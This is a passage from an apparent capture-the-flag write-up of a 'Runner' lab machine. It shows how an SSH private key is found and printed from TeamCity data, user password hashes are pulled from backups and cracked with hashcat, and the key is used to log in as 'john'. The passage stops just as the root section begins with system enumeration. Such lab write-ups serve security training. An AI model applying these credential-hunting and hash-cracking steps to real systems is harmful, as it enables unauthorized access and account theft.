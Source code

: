 Looking for private keys in the file system, I found this one.
```markdown
> find / -name id_rsa 2> /dev/null
/data/teamcity_server/datadir/config/projects/AllProjects/pluginData/ssh_keys/id_rsa

> cat /data/teamcity_server/datadir/config/projects/AllProjects/pluginData/ssh_keys/id_rsa
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
NhAAAAAwEAAQAAAYEAlk2rRhm7T2dg2z3+Y6ioSOVszvNlA4wRS4ty8qrGMSCpnZyEISPl
htHGpTu0oGI11FTun7HzQj7Ore7YMC+SsMIlS78MGU2ogb0Tp2bOY5RN1/X9MiK/SE4liT
njhPU1FqBIexmXKlgS/jv57WUtc5CsgTUGYkpaX6cT2geiNqHLnB5QD+ZKJWBflF6P9rTt
zkEdcWYKtDp0Phcu1FUVeQJOpb13w/L0GGiya2RkZgrIwXR6l3YCX+mBRFfhRFHLmd/lgy
...
axTWDMGzuA9dg6YZoUrzLWcSU8cBd+iMvulqkyaGud83H3C17DWLKAztz7pGhT8mrWy5Ox
KzxjsB7irPtZxWmBUcFHbCrOekiR56G2MUCqQkYfn6sJ2v0/Rp6PZHNScdXTMDEl10qtAW
QHkfhxGO8gimrAvjruuarpItDzr4QcADDQ5HTU8PSe/J2KL3PY7i4zWw9+/CyPd0t9yB5M
KgK8c9z2ecgZsAAAALam9obkBydW5uZXI=
-----END OPENSSH PRIVATE KEY-----

```
Nice to know but useless since we don't have an username, need to look further. Found several database backups here `/data/teamcity_server/datadir/backup`
```markdown
> ls -hal
total 860K
drwxr-x--- 2 tcuser tcuser 4.0K Apr 21 16:43 .
drwxr-xr-x 7 tcuser tcuser 4.0K Apr 21 16:02 ..
-rw-r----- 1 tcuser tcuser 265K Apr 21 14:53 TeamCity_Backup_20240421_145357.zip
-rw-r----- 1 tcuser tcuser 289K Apr 21 16:35 TeamCity_Backup_20240421_163536.zip
-rw-r----- 1 tcuser tcuser 289K Apr 21 16:43 TeamCity_Backup_20240421_164327.zip
```
And inside `TeamCity_Backup_20240421_145357.zip`, in the `database_dump` folder, a dump for the `users` table which contains hashes for users `john@runner.htb` and `matthew@runner.htb`

![Untitled4](https://github.com/user-attachments/assets/66b6be9a-dcec-4eb2-a81e-99df26d9f6ee)

John's seems uncrackable in my rig, though the other one (Matthew's) is (blowfish module).
```markdown
> hashcat -m 3200 -a 0 -d 1 hash.txt .\rockyou.txt
```

Take note of this password, we will use it afterwards. Now that we have 2 usernames, we can test the private key we found before. It works with username `john` and we are supplied with an SSH shell in the host.

![Untitled2](https://github.com/user-attachments/assets/30898946-034a-482a-b1dd-913bcb4ed0fd)

Which can be used to retrieve the user flag.

### ROOT
Start from the SSH shell under user `john` and take the opportunity to enumerate the current user and the system.
```markdown
> id && whoami
uid=1001(john) gid=1001(john) groups=1001(john)

> uname -a && cat /etc/os-release
Linux runner 5.15.0-102-generic #112-Ubuntu SMP Tue Mar 5 16:50:32 UTC 2024 x86_64 x86_64 x86_64 GNU/Linux
PRETTY_NAME="Ubuntu 22.04.4 LTS"
NAME="Ubuntu"
VERSION_ID="22.04"
VERSION="22.04.4 LTS (Jammy Jellyfish)"
VERSION_CODENAME=jammy
ID=ubuntu
ID_LIKE=debian
```